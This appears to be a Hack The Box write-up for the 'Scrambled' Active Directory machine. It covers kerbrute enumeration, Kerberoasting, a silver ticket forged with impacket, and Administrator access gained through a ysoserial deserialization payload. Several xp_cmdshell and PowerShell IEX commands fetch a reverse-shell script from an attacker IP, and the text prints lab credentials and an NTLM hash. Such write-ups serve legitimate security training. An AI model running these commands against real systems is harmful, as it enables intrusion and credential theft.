

## Enumeration and Recon

### Port Scan

```
53/tcp   open  domain        syn-ack ttl 127 Simple DNS Plus
80/tcp   open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Scramble Corp Intranet
88/tcp   open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2022-07-06 03:19:57Z)
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: scrm.local0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC1.scrm.local
| Subject Alternative Name: othername:<unsupported>, DNS:DC1.scrm.local
| Issuer: commonName=scrm-DC1-CA/domainComponent=scrm
<snip>
445/tcp  open  microsoft-ds? syn-ack ttl 127
464/tcp  open  kpasswd5?     syn-ack ttl 127
593/tcp  open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: scrm.local0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC1.scrm.local
| Subject Alternative Name: othername:<unsupported>, DNS:DC1.scrm.local
| Issuer: commonName=scrm-DC1-CA/domainComponent=scrm
<snip>
1433/tcp open  ms-sql-s      syn-ack ttl 127 Microsoft SQL Server 2019 15.00.2000.00; RTM
|_ssl-date: 2022-07-06T03:21:19+00:00; -1s from scanner time.
<snip>
3268/tcp open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: scrm.local0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC1.scrm.local
| Subject Alternative Name: othername:<unsupported>, DNS:DC1.scrm.local
<snip>
3269/tcp open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: scrm.local0., Site: Default-First-Site-Name)
```

## Web Enumeration

Some useful information




We now know that: NTLM Auth is **disabled** in this active directory environment. Also we could see that `ksimpson` could be a valid username. Let’s use kerbrute to find out. 

Last thing to note is when the password is reset it will be same as username. So that could be very useful information. 

## Foothold

### Finding valid usernames

`kerbrute userenum /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -d scrm.local --dc 10.129.84.4`

Following are the valid usernames

```
administrator
asmith
jhall
sjenkins
khicks
ksimpson
```

We are not able to use username as password to login into SMB. Maybe its because of NTLM is disabled.  Let’s try to getTGT (impacket) for the valid users. In hope to use the `kerberos ccahe` file to auth with SMB.

### Generating TGT

`impacket-getTGT  -k 'scrm.local/ksimpson' -dc-ip 10.129.84.4`

we know the password is same as username, we will be using that. Now we  have valid cache of ksimpson’s ticket. 

Let’s try to auth with SMB. By exporting the ticket into a variable 

```bash
export KRB5CCNAME=ksimpson.ccache
impacket-smbclient scrm.local/ksimpson@dc1.scrm.local -k -no-pass
```


### SMB Enumeration


We found a PDF. I tried to find other useful file like Groups.xml which could be used to crack password. But then it didn’t have one in SYSVOL. For more information checkout Active [writeup](https://youtube.com/watch?v=jUc1J31DNdw&t=560).

The following are the PDF contents and no meta-data for the file was found.


Only one page. We can note that SQL DB had credentials which was retrieved by the attackers hence from then NTLM was disabled. But we could auth with kerberos, if am not wrong. 

### kerberos TGS

Let’s try to get the UserSPNS with the cacche. But when we try to run your script impacket-GetUserSPNs would likely error out. If it does, the check the [issue](https://github.com/SecureAuthCorp/impacket/issues/1206) raised by the author of the box. There a fix has been suggested which could be implemented. After doing the same now let’s get the user SPNs.

Now that its set, lets request for the hash. `python3 GetUserSPNs.py  -request scrm.local/ksimpson:ksimpsonc@dc1.scrm.local -k -no-pass -dc-ip dc1.scrm.local`


We now have a hash, let’s run it with hashcat. Hashcat with mode 13100 and wordlist as rockyou

I was able to crack the 


We have credentials for `sqlsvc:Pegasus60`

### Generating TGT for SQLSVC

lets try to generate TGT for SQLSVC.


Let’s try to connect to MySQL using impacket-mysqlclient

it doesn’t seem to work. 🤔

### Performing SilverTicket Attack

B999A16500B87D17EC7F2E2A68778F05 is the NTLM hash for Pegasus60

We know the SPN of sqlsvc is `MSSQLSvc/dc1.scrm.local`

For some reason generating ST using impacket script failed, when I asked other HTB players I came to know that I could use 


and this makes sense. Found an [article](https://wadcoms.github.io/wadcoms/Impacket-SilverTicket/) which shows how to perform silver ticket using impacket. For which we need Domain SID. Domain SID can be extracted using rpc. But we will have to install kerberos into our system to use other tools. To communicate with the ticket. 

Let’s follow [tentacle writeup](https://www.youtube.com/watch?v=kKhuUXPmJ_o&t=3870s&ab_channel=IppSec) to understand how.

Following is the krb5.conf. Make sure you have the hosts in the hosts file set properly and time is synced as shown in the ippsec’s video.

```bash
[libdefaults]
        default_realm = SCRM.LOCAL

# The following krb5.conf variables are only for MIT Kerberos.
        kdc_timesync = 1
        ccache_type = 4
        forwardable = true
        proxiable = true

# The following encryption type specification will be used by MIT Kerberos
# if uncommented.  In general, the defaults in the MIT Kerberos code are
# correct and overriding these specifications only serves to disable new
# encryption types as they are added, creating interoperability problems.
#
# The only time when you might need to uncomment these lines and change
# the enctypes is if you have local software that will break on ticket
# caches containing ticket encryption types it doesn't know about (such as
# old versions of Sun Java).

#       default_tgs_enctypes = des3-hmac-sha1
#       default_tkt_enctypes = des3-hmac-sha1
#       permitted_enctypes = des3-hmac-sha1

# The following libdefaults parameters are only for Heimdal Kerberos.
        fcc-mit-ticketflags = true

[realms]
        SCRM.LOCAL = {
                kdc = 10.129.84.4
        }
[domain_realm]
        .scrm.local = SCRM.LOCAL
        scrm.local = SCRM.LOCAL
```


We previously generated TGT right, we will export that cache to variable and connect to rpc like this `rpcclient -U 'scrm.local/ksimpson' dc1.scrm.local -k` after that we can enumerate for the DOMAIN SID


Domain SID for scrm.local - S-1-5-21-2743207045-1827831105-2542523200

```
Target IP: 10.129.84.4
Domain: Scrm.local
Username: sqlsvc
Hash: B999A16500B87D17EC7F2E2A68778F05
Domain SID: S-1-5-21-2743207045-1827831105-2542523200
SPN: MSSQLSvc/dc1.scrm.local
```

The following command gives us a ticket which is saved 

`impacket-ticketer -nthash B999A16500B87D17EC7F2E2A68778F05 -domain-sid S-1-5-21-2743207045-1827831105-2542523200 -domain scrm.local -dc-ip 10.129.84.4 -spn  MSSQLSvc/dc1.scrm.local administrator`


### Connecting to MYSQL

`impacket-mssqlclient dc1.scrm.local -k`


Let’s get a reverse shell 

`xp_cmdshell "powershell IEX(New-Object Net.webclient).downloadString(\"http://10.10.14.18/revshell.ps1\")"`

### Enumerating DB

List DB  -  `SELECT name FROM master.dbo.sysdatabases`


List Table - `SELECT table_catalog, table_name FROM information_schema.columns`

`select * from UserImport`

We now have the LDAP credentials of an user: `MiscSvc:ScrambledEggs9900`


We can PSREMOTE

```powershell

$pass = ConvertTo-SecureString "ScrambledEggs9900" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("scrm\miscsvc", $pass)
Invoke-Command -Computer dc1 -ScriptBlock { IEX(New-Object Net.WebClient).downloadString("http://10.10.14.18/revshell.ps1") } -Credential $cred
```


Download those two files. Let’s reverse it 

## Privilege Escalation

Found this in the DLL


By looking the DLL in DnSPY.  we can see that 

LIST_ORDER - will output order in base64 serialized binary data

UPLOAD_ORDER- will upload your binary serialized data and deserializes it 

Now let’s craft a payload using ysoserial to get a shell back

`.\ysoserial.exe -f BinaryFormatter -g WindowsIdentity -o base64 -c "powershell.exe Invoke-Command -Computer dc1 -ScriptBlock {IEX(New-Object Net.WebClient).downloadString('http://10.10.14.18/revshell.ps1')}"`


and paste the command in nc after the banner as `UPLOAD_ORDER;`


I then got reverse shell as Administrator. Machine Pwned!